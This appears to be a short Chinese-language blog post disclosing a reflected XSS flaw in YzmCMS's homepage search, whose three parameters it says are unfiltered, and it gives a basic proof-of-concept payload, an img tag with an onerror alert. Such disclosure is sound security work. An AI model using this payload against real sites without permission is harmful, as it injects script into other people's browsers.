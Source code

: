 ```yaml
---
title: "Yzm CMS 存在反射型 XSS"
date: 2024-03-09
description: "主页面搜索功能三个参数都存在 xss"
tags: ["XSS","前端漏洞"]
featured_image: ""
# images is optional, but needed for showing Twitter Card
images: []
categories: "sec"
comment: false
draft: false
---
```


YzmCMS 主页面的搜索功能有三个参数，这三个参数都存在反射性 xss。

![xss1](/images/xss/xss0-0.png)

没有过滤，我们插入常规 payload 即可。

    <img src=a onerror=alert(1)>

![xss1](/images/xss/xss0-1.png)